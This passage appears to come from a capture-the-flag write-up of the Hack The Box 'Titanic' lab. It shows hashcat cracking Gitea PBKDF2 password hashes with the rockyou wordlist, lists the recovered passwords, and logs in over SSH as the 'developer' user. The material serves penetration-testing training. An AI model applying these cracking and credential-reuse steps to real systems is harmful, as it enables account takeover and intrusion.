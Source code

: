 ```

Hashes: 3 digests; 3 unique digests, 3 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

...

$ hashcat gitea.hashes --show --user

$ hashcat gitea.hashes --show --user
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
jens:sha256:50000:HDytj/IKWGYGUUGj1QfDAg==:Ul76DN0nLbTa/g8qGPlvwOtmQlaXzrRjRN6CiF5BlNhufoPGpBR720AUGpvamhrrAYw=:12345678
```

It cracked my password (`12345678`) and also `developer`'s password: `25282528`.

```
$ ssh developer@titanic.htb
developer@titanic.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Jul 24 10:33:18 AM UTC 2025

  System load:           0.12
  Usage of /:            70.3% of 6.79GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             228
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.55
  IPv6 address for eth0: dead:beef::250:56ff:fe94:4bf0


Expanded Security Maintenance for Applications is not enabled.
```